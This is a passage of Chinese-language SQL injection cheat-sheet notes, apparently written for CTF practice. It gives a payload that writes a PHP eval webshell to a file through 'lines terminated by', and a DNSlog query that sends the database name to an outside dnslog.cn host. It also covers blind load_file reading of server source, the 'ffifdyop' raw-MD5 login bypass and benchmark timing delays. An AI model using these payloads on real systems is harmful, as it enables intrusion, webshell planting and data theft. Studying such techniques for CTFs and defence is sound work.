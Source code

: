 ```sql
filename=1.php' lines terminated by '<?php eval($_POST[1]);phpinfo();?>'%23
```

木马在dump/1.php中。
除了上面说的`lines terminated by`还有
`lines starting by`
`fields terminated by`

## DNSlog注入

```sql
select load_file(concat("//",(select database()),"zfzyk9.dnslog.cn/123"))
```

## 常用函数和运算符总结

```
hex

to_base64

reverse

substr(string ,pos,len)、mid，用法一样
pos从1开始

regexp
select * from customers where last_name regexp '^brush'
或者0'||(username)regexp'^brush'

load_file读源代码
data{'username':f"if(ascii(substr(load_file('/var/www/html/api/index.php'),{i},1))={j},1,0)",'password':'1'}
^表示查找的字符串必须以什么开头

char获得字符
字符c=char(ture+ture+ture......) (99个true)

ord、ascii获得ASCII

right join
select * from A right join B on A.aID = B.bID
右表(B)的记录将会全部表示出来,而左表(A)只会显示符合搜索条件的记录(例子中为: A.aID = B.bID)。A表记录不足的地方均为NULL。

md5('ffifdyop',true)= 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
会发现直接闭合掉了并且存在or，所以可以直接登录成功。

benchmark(10000000,md5('yu22x'));

md5($password,true) md5参数true
```
